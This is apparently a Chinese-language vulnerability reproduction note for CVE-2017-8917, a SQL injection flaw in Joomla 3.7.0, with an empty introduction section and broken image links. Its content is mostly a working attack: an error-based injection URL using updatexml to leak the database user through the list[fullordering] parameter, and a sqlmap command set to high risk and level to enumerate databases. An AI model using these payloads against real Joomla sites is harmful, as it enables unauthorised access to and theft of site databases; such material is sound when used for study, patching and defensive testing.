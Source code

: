 （CVE-2017-8917）Joomla 3.7.0 QL注入漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

Joomla 3.7.0

三、复现过程
------------

    http://www.0-sec.org:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)

![1
1.png](./.resource/(CVE-2017-8917)Joomla3.7.0QL注入漏洞/media/rId24.png)

### 补充

    sqlmap -u "http://www.0-sec.org/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
